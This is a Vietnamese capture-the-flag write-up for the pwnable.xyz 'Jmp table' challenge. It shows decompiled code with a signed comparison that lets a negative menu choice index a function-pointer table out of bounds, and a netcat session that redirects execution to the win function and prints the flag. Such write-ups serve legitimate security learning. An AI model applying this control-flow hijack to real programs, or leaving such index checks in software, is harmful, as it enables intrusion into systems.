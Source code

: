 # Pwnable.xyz Jmp table
## Analysis
Có rất nhiều hàm nhưng chúng ta chỉ cần tập trung vào vài hàm chính  
Chương trình cho ta 5 lựa chọn nhưng nhận cả đầu vào âm:
```
void main(void)
{
  int choice;
  
  setup();
  do {
    while( true ) {
      print_menu();
      printf("> ");
      choice = read_long();
      if (choice < 5) break;
      puts("Invalid.");
    }
    (*(code *)vtable[choice])();
  } while( true );
}
```
```
void do_malloc(void)
{
  printf("Size: ");
  size = read_long();
  heap_buffer = malloc(size);
  if (heap_buffer == (void *)0x0) {
    heap_buffer = (void *)0x1;
  }
  return;
}
```
## Solution
Để ý cấu trúc các biến global:
```
size (8 bytes)
heap_buffer (8 bytes)
vtable (8 x 5 bytes)
```
Như vậy, chỉ cần để size là địa chỉ hàm win sau đó để choice = -2 là có thể chuyển hướng thực thi chương trình
```
└─$ nc svc.pwnable.xyz 30007
1. Malloc
2. Free
3. Read
4. Write
0. Exit
> 1
Size: 4196913
1. Malloc
2. Free
3. Read
4. Write
0. Exit
> -2
FLAG{signed_comparison_checked}1. Malloc
```
## Flag
```
FLAG{signed_comparison_checked}
```